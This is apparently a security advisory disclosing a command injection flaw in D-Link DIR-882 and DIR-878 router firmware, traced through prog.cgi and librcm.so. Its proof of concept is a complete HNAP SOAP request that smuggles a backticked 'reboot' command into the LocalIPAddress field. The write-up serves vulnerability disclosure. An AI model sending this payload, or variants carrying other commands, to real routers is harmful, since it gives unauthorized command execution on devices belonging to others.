


# D-Link Vulnerability

Vendor:D-Link

Product:DIR_882、DIR_878

Version:DIR_882_FW130B06、DIR_878_FW130B08

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology router with firmware which was released recently. A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.

**Remote Command Execution**

In `prog.cgi` binary:

In `SetVirtualServerSettings` function,`ExternalPort、InternalPort、ProtocolNumber、LocalIPAddress` is directly passed by the attacker. After that, call the function nvram_safe_set to store this input.

<div  align="center"></div>

In `librcm.so` binary:

In `VIRTUALSERVER_run` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

<div  align="center"></div>


## PoC

We set `LocalIPAddress` as **`reboot`** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
Content-Length: 745
SOAPACTION: "http://purenetworks.com/HNAP1/SetVirtualServerSettings"
HNAP_AUTH: 00DE7FCD66C2D4FA5E68801202143913 1727332590756
Accept: text/xml
Content-Type: text/xml
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Origin: http://192.168.100.1
Referer: http://192.168.100.1/VirtualServer.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=j4QVCB2r
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetVirtualServerSettings>
			<VirtualServerList>
				<VirtualServerInfo>
					<Enabled>true</Enabled>
					<VirtualServerDescription>pjqwudi</VirtualServerDescription>
					<ExternalPort>4000</ExternalPort>
					<InternalPort>4000</InternalPort>
					<ProtocolType>TCP</ProtocolType>
					<ProtocolNumber>6</ProtocolNumber>
					<LocalIPAddress>`reboot`</LocalIPAddress>
					<ScheduleName>Always</ScheduleName>
				</VirtualServerInfo>
			</VirtualServerList>
		</SetVirtualServerSettings>
	</soap:Body>
</soap:Envelope>
```

<div  align="center"></div>


## Result

The router will reboot.
